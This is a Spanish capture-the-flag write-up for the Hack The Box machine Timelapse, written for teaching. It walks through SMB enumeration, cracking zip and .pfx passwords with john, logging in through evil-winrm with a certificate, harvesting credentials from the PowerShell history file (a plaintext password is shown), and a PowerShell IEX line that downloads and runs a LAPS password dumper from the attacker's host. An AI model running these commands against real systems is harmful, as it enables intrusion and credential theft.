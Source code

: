 ```yaml
---
layout: single
title: Timelapse - Hack The Box
excerpt: "En esta máquina fácil Windows econtraremos un archivo .zip expuesto en el servicio **SMB** el cuál podremos crackear su contraseña con **zip2john**. Dentro habrá un archivo **.pfx** donde podremos obtener un certificado y una clave privada. Antes tendremos que averiguar la contraseña con herramientas como **pfx2john** o **crackpkcs12**. Una vez hecho esto nos podremos conectar al servicio **winrm por ssl** con la herramienta **evil-winrm**. En nuestro camino para convertirnos en Administrator encontraremos unas credenciales en el **histórico de powershell** y posteriormente nos aprovecharmos del grupo **LDAP_readers** para obtener la contraseña del Administrador"
date: 2023-09-09
classes: wide
header:
  teaser: /assets/images/htb-writeup-timelapse/timelapse_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - Windows
  - Crack Zip
  - Extract public and private key in .pfx
  - Powershell History
  - LAPS Readers
---
```


![](/assets/images/htb-writeup-timelapse/timelapse_logo.png)

# Enumeración
Puertos abiertos:
![](/assets/images/htb-writeup-timelapse/nmap_timelapse.png)
Al encontrarnos tantos puertos abiertos debemos seguir un orden para no hacernos un lio. Empezaremos por el **puerto 445 (SMB)**.
```bash
smbmap -H 10.10.11.152 -u 'NULL'
```
Con esto veremos que podemos leer la carpeta **Shares**. usando el parametro -r de smbmap podremos listar lo que hay dentros de dichas carpetas.
```bash
smbmap -H 10.10.11.152 -u 'NULL' -r Shares/Dev
```
![](/assets/images/htb-writeup-timelapse/smbmap_timelapse.png)
Para descargarnos el archivo tenemos el parametro --download
```bash
smbmap -H 10.10.11.152 -u 'NULL' --download Shares/Dev/winrm_backup.zip 
```
A la hora de unzipearlo nos pide una contraseña. Momento de usar **zip2john** y crackear el hash con **john**
```bash
zip2john winrm_backup.zip > hash
john -w=/usr/share/wordlists/rockyou.txt hash
```
Con esto obtenemos el archivo **legacyy_dev_auth.pfx** pero ¿Qué es un archivo .pfx? Con una rapida búsqueda en Google veremos que las características de estos archivos incluyen **certificados digitales** utilizados para procesos de autenticación necesarios para determinar si un usuario o un dispositivo puede acceder a ciertos archivos o a un equipo. Ahora bien, **¿Cómo obtenemos estos certificados?** Pues lo podemos hacer con la herramienta **openssl**

Extraemos la clave privada:
```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out clave_privada.key -nodes
```
Extreamos el certificado:
```bash
 openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out certificado.pem
```
Pero vemos que al hacerlo nos pide una contraseña. Siguiendo el mismo procedimiento que con el archivo .zip podemos usar **pfx2john** o **crackpkcs12.**
Para descargar crackpkcs12: [Descargar](https://github.com/crackpkcs12/crackpkcs12)
```bash
pfx2john legacyy_dev_auth.pfx > hash
john -w=/usr/share/wordlists/rockyou.txt hash
```
```bash
crackpkcs12 -d /usr/share/wordlists/rockyou.txt legacyy_dev_auth.pfx
```
Ahora con esta contraseña podremos crear nuestros certificados y con **evil-winrm** conectarnos por ssl ya que está abierto el puerto **5986** y no el 5985
```bash
evil-winrm -i 10.10.11.152 -k clave_privada.key -c certificado.pem --ssl
```
# Escalada de privilegios usuario legacyy
Esta máquina no nos dejaba usar **winPEAS.exe** por lo que tenemos que ir enumerandolo manualmente. Mirando en **hacktricks** vemos una manera de **leer el historico de powershell** donde se pueden estar guardando comandos interesantes. Para verlo hacemos:
```powershell
type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
Y sorpresa!, encontramos las credenciales de **svc_deploy** pero ¿Para que íbamos a querer convertirnos en este usuario? Pues bien si nos conectamos como ese usuario con **evil-winrm** ya que forma parte del grupo **Remote Managment Users**. Para conectarnos como ese usuario con evil-winrm:
```bash
evil-winrm -i 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```
Si vemos los grupos a los que pertenece con este comando, veremos que se encuentra en el grupo **LAPS_readers**
```powershell
net user svc_deploy
```
![](/assets/images/htb-writeup-timelapse/grupo_svc_deploy.png)
# Escalada de privilegios usuario svc_deploy
## ¿Qué privilegios otorga el grupo LAPS_readers?
Los usuarios que forman parte de este grupo pueden gestionar las contraseñas de las cuentas locales de los ordenadores conectados a un dominio. Es decir, podemos leer la contraseña de los usuarios, como el de Administrador. Ahora bien, ¿cómo lo hacemos? Usaremos el siguiente script en powershell: [Get-LAPSPasswords](https://github.com/kfosaaen/Get-LAPSPasswords)
<br>Nos montaremos un servidor en python3 en nuestra máquina:
```bash
python3 -m http.server 80
```
Y nos lo transmitiremos a la máquina con este comando. Así lo interpretaremos a la vez que lo pasamos a la máquina.
```powershell
IEX(New-Object Net.WebClient).downloadString('http://x.x.x.x/Get-LAPSPasswords.ps1')
```
Una vez dentro solo tendremos que escribir: **Get-LAPSPasswords**
![](/assets/images/htb-writeup-timelapse/Get-LAPSPassword.png)
<br>Y por último, nos conectariamos con **evil-winrm** como el usuario **Administrador** con esa contraseña :D
